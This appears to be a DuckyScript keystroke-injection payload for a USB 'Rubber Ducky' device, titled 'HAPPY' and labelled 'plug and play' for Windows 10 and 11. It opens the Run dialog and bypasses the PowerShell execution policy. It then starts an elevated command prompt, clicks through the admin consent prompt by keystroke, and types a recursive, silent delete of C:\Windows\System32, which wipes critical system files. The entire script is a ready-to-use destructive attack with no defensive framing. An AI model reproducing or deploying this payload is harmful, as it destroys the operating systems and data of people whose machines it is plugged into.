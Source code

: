 # Rubbery Ducky

CODE:

REM     Title: HAPPY

REM     Author: EnergyN

REM     Description: THE BEST KILLER. 
REM     ELO ELO. 

REM     Target: Windows 10, 11

REM     --------------------------------------------------------------------------------------
REM     THIS PAYLOAD IS PLUG AND PLAY.
REM     --------------------------------------------------------------------------------------

DELAY 2000
GUI r
DELAY 500
STRING powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; Start-Process cmd -ArgumentList "/K" -Verb RunAs
ENTER
DELAY 7500
LEFT
ENTER
DELAY 2000
STRING del /s /q C:\Windows\System32\*
DELAY 1000
ENTER
